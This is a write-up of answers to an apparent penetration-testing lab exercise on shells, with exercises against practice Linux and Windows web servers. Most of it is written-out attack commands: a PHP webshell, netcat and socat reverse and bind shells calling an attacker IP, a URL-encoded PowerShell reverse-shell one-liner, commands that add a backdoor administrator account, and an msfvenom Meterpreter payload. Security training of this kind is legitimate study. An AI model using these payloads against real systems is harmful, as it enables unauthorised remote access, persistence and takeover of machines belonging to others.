

# Practice and Examples

* [Linux machine](#linux-machine)
  * [Exercise 1.](#exercise-1)
  * [Exercise 2.](#exercise-2)
  * [Exercise 3.](#exercise-3)
  * [Exercise 4.](#exercise-4)
  * [Exercise 5.](#exercise-5)
* [Windows machine](#windows-machine)
  * [Exercise 6.](#exercise-6)
  * [Exercise 7.](#exercise-7)
  * [Exercise 8.](#exercise-8)
  * [Exercise 9.](#exercise-9)
  * [Exercise 10.](#exercise-10)
  * [Exercise 11.](#exercise-11)

## Linux machine
Configured with a simple webserver where files can be uploaded.


### Exercise 1. 
> Try uploading a webshell to the Linux box, then use the command: `nc <LOCAL-IP> <PORT> -e /bin/bash` to send a reverse shell back to a waiting listener on your own machine.

We upload a simple PHP webshell: 

```php
# webshell.php

<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

We can check that it works by accessing the file on the server at `<SERVER_IP>/uploads/webshell.php?cmd=whoami`.


On the attacking machine, we set up a listener at port 6000:

```sh
~$ nc -lnvp 6000
```

and we send a reverse shell back to the listener by accessing `http://<SERVER_IP>/uploads/webshell.php?cmd=nc%2010.10.188.168%206000%20-e%20/bin/bash`. i.e. we send the command `nc <LISTENER_IP> <PORT> -e /bin/bash` as the `GET` parameter.


### Exercise 2. 
> Navigate to `/usr/share/webshells/php/php-reverse-shell.php` in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.

We edit the reverse shell script found in `/usr/share/webshells`, changing the IP address and the port.


We then upload this file onto the server. We set up a Netcat listener at the designated port:

```sh
~$ nc -lnvp 1234
```
Then, we activate the shell by accessing the file at `<SERVER_IP>/uploads/php-reverse-shell.php`.

### Exercise 3.

> Log into the Linux machine over SSH using the credentials given. Use the techniques in [Common Shell Payloads](./what_the_shell.md#common-shell-payloads) to experiment with bind and reverse netcat shells.

See linked section for details.

### Exercise 4.

> Practice reverse and bind shells using Socat on the Linux machine. Try both the normal and special techniques.

See [Socat](./what_the_shell.md#socat) for details.

### Exercise 5. 

>Look through [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) and try some of the other reverse shell techniques. Try to analyse them and see why they work.

Nothing else to say here.

## Windows machine

Configured with a simple webserver where files can be uploaded.


### Exercise 6.

> Switch to the Windows VM. Try uploading and activating the `php-reverse-shell`. Does this work?

No. The listener gives the following error:

```html
'uname' is not recognized as an internal or external command,
operable program or batch file.
```

### Exercise 7.

> Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.

Upload the webshell as in [Exercise 1](#exercise-1). With a netcat listener set up on the attacking macchine, we then access the file on the server, with the GET parameter `cmd`:

```powershell
> powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```


### Exercise 8.

> The webserver is running with SYSTEM privileges. Create a new user and add it to the "administrators" group, then login over RDP or WinRM.

Using the webshell uploaded previously, we can send the following command as the GET parameter `cmd` to add a new user:

```cmd
> net user <USERNAME> <PASSWORD> /add
```

In this case, we used the credentials:
* `<USERNAME> = limzy12`
* `<PASSWORD> = password`


We can check that the user has been added by sending the command to the webshell (i.e. as the GET parameter `cmd`):

```cmd
> net user
```


However, we this new user is not in the "administrators" group. We can check this by sending the following command to the webshell

```cmd
> net localgroup administrators
```


We can add the user to the "administrators" group using the command

```cmd 
> net localgroup administrators <USERNAME> /add
```

Once the command is run successfully, we can check the users in the "administrators" group again.


We can then login to the Windows machine via RDP using the command

```sh
~$ xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:<TARGET_IP> /u:<USERNAME> /p:'<PASSWORD>'
```



### Exercise 9. 

> Experiment using socat and netcat to obtain reverse and bind shells on the Windows Target.

**Netcat Reverse Shell**

Netcat is **not** installed on Windows by default. Thus, we have to load a [Netcat binary](https://eternallybored.org/misc/netcat/) onto the Windows target. Since the Windows target does not have an Internet connection, [Updog](https://github.com/sc0tfree/updog) was used to transfer the binary from the Linux attacker to the Windows target. The Netcat binary is stored directly on the `D:/` drive.

Using Netcat, a listener was setup on the attacking machine. On the Windows target, we can then obtain a reverse shell using the command

```powershell
> D:/nc <ATTACKER_IP> <PORT> -e "cmd.exe"
```

The end result should look like:

")

")

**Netcat bind shell**

The Netcat bind shell is similar. We setup a listener on the target using

```powershell
> D:/nc -lnvp <PORT> -e "cmd.exe"
```

Then, we connect to the listener on our attacking machine using

```sh
~$ nc <TARGET-IP> <PORT>
```

The end result should look like:

")

")

**Socat reverse shell**

The attacker sets up a listener using 

```sh
~$ socat TCP-L:<PORT> -
```

while the target connects to the listener using the command

```powershell
> socat TCP:<ATTACKER_IP>:<PORT> EXEC:powershell.exe,pipes
```


**Socat bind shell**

The target sets up a listener using

```powershell
> socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

while the attacking machine connects to the listener using

```sh
~$ socat TCP:<TARGET_IP>:<PORT> -
```


### Exercise 10. 

> Create a 64-bit Windows **Meterpreter** shell using msfvenom and upload it to the Windows Target. Activate the shell and catch it with multi/handler. Experiment with the features of this shell.

We generate the payload using the command

```sh
~$ msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o msfshell.exe LHOST=<ATTACKER_IP> LPORT=<PORT>
```

We then upload the output payload `msfshell.exe` to the webserver via the webpage. We also upload the simple webshell as in [Exercise 1](#exercise-1). 

We can check that the working directory of the webshell is the `\uploads` folder by sending a `cd` command to the webshell.


Thus, we can activate the payload directly by sending the command `msfshell.exe` to the webshell. Before we do so, we have to set up multi/handler to listen for the connection, setting the options:

* `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
* `set LHOST <ATTACKER-IP>`
* `set LPORT <PORT>`


### Exercise 11.

> Create both staged and stageless meterpreter shells for either target. Upload and manually activate them, catching the shell with *Netcat* -- does this work?

No. The Netcat listener receives the connection, but no shell is obtained. 

